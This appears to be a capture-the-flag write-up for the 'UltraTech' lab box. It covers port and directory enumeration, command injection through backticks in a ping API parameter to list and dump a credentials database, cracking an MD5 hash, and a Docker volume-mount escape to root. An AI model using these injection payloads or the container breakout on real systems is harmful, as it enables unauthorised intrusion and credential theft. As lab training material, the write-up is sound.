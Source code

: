 #UltraTech writeup
This is an intermediate challange that requires relatively easy methods for privilegie escalation.

Enumeration:
Using `sudo nmap -Pn -p- -v -A 10.10.22.222` to find open ports on the server yields the following results:
![nmap scan](images/nmap.png)

We can easily find all of the answers for part one of this challange by inspecting of the nmap scan.
1. Which software is using the port 8081?
    * Node.js

2. Which other non-standard port is used?
    * 31331

3. Which software using this port?
    * Apache

4. Which GNU/Linux distribution seems to be used?
    * Ubuntu (Both SSH and Apache are running their Ubuntu versions)

5. The software using the port 8080 is a REST api, how many of its routes are used by the web application?
    * 2 (_http-cors and _http-title)


We try finding hidden directories on the Node.js by running `gobuster dir -u http://10.10.22.222:8081/ -w /usr/share/dirb/wordlists/big.txt  -t 30` since there seems to be something hiding here. 
![gobuster scan](images/gobuster.png)

Heading to the /auth site only tells us that `You must specify a login and a password`.
There doesn't seem like there's very much to do on this website...yet.

Doing a similar gobuster scan on the apache server at port 30331, however, reveals a lot of directories:
`gobuster dir -u http://10.10.22.222:31331 -w /usr/share/dirb/wordlists/big.txt  -t 30`
![apache server scan](images/apache_server.png)

Heading to the /js directory gives us a couple of files, where the `api.js` stands out. 
In the api.js file we see this

![api.js](images/api_js.png)

This script seems to, amongst other things, ping itself on port 8081 (which is where the Node.js site resides) to check if the API is running. The new endpoint, `http://10.10.55.254:8081/ping?ip={some_ip}`, is revealed. 

By going to `http://10.10.55.254:8081/ping?ip=10.10.55.254` we get this reply `PING 10.10.55.254 (10.10.55.254) 56(84) bytes of data. 64 bytes from 10.10.55.254: icmp_seq=1 ttl=64 time=0.023 ms --- 10.10.55.254 ping statistics --- 1 packets transmitted, 1 received, 0% packet loss, time 0ms rtt min/avg/max/mdev = 0.023/0.023/0.023/0.000 ms` which looks a lot like Linux' standard ping reply. This implies that the system might be vulnerable for a [command injection attack](https://owasp.org/www-community/attacks/Command_Injection). An inline execution is performed when a command is surrounded by backticks (`).

Thus by sending the argument ``` `ls` ``` to the server, we first execute the ls command, and then send the result to the ping command. By going to ``` http://10.10.55.254:8081/ping?ip=`ls` ``` we receive this reply from the server. `ping: utech.db.sqlite: Name or service not known `

1. There is a database lying around, what is its filename?
    * utech.db.sqlite

This endpoint is thus vulnerable to clommand injection attacks. 

In order to read this file you simply send this request ``` http://10.10.55.254:8081/ping?ip=`cat utech.db.sqlite` ```. 
`ping: ) ���(Mr00tf357a0c52799563c7c7b76c1e7543a32)Madmin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded`

After some trying and failing, I find out that the username is `r00t` and MD5 hash of the password `f357a0c52799563c7c7b76c1e7543a32`.

2. What is the first user's password hash?
    * 357a0c52799563c7c7b76c1e7543a32

Using [Crackstation](crackstation.net) i find that the password for `r00t` is `n100906`.

3. What is the password associated with this hash?
    * n100906

![Crackstation](images/md5.png)

I try to connect to the server with SSH by using these credentials, and to my suprise the username and password combination actually works! User privilegies gained! :^)

Basic enumeration as r00t does not give us anything. 
I intall `linpeas.sh` in r00t's home directory and run it. 

![Linpeas](images/linpeas.png)

The Docker user seems to stand out, so we better check that out more closely. Heading over to [GTFObin's site for docker](https://gtfobins.github.io/gtfobins/docker/) we see that the `docker run -v /:/mnt --rm -it bash chroot /mnt sh` can be used to escape restricted shells and gain root access.

![Rooted!](images/root.png)

Rooted! :^) 
